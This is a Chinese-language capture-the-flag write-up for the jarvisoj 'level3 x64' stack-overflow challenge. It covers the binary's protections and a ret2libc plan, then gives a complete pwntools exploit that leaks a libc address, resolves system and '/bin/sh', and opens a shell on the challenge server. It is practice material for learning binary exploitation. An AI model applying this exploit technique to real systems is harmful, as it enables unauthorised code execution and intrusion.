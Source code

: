 ```yaml
---
author: 
  name: Zephyr
title: jarvisoj level3 x64
date: 2022-3-28 10:25:20
permalink: /pages/2e1547494524d19e
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# jarvisoj level3 x64

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/jarvisoj_level3_x64/level3_x64'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  return write(1, "Hello, World!\n", 0xEuLL);
}
```

vulnerable_function函数及函数表如下

![jarvisoj_level3_x64_1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/jarvisoj_level3_x64_1.png)

## 思路分析

1. 目前信息：
   - vulnerable_function函数可溢出
   - 无system、/bin/sh与后门函数
   - No canary found
   - NX enabled
   - No PIE
2. 思路：
   - 典型的64位ret2libc解法

## exp

```python
from pwn import *
from LibcSearcher import *
context.terminal = ['tmux', 'splitw', '-h']
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/jarvisoj_level3_x64/level3_x64'
io = remote('node4.buuoj.cn', 29803)
# io = process(pwnfile)
elf = ELF(pwnfile)
padding = 136
libc_start_main_got = elf.got['__libc_start_main']
write_plt = elf.plt['write']
vulnerable_function = elf.symbols['vulnerable_function']
pop_rdi_ret = 0x4006b3
pop_rsi_r15_ret = 0x4006b1
ret=0x400499
payload = flat(['a'*padding, pop_rdi_ret, 1, pop_rsi_r15_ret,libc_start_main_got, 0xdeadbeef, write_plt,vulnerable_function])
# 少设置了write函数的第三个参数rdx为6，但这里不影响，执行write前上一个write的第三个参数rdx为7，中间并没有改变这里可以复用
io.sendafter('Input:\n', payload)
leak_libc_start_main = u64(io.recvuntil('\x7f')[-6:].ljust(8, b'\x00'))
success("leak_libc_start_main:"+hex(leak_libc_start_main))
libc = LibcSearcher('__libc_start_main', leak_libc_start_main)
libc_base = leak_libc_start_main-libc.dump('__libc_start_main')
system = libc_base+libc.dump('system')
bin_sh = libc_base+libc.dump('str_bin_sh')
payload = flat(['a'*padding, pop_rdi_ret, bin_sh, system])
io.send(payload)
io.interactive()
```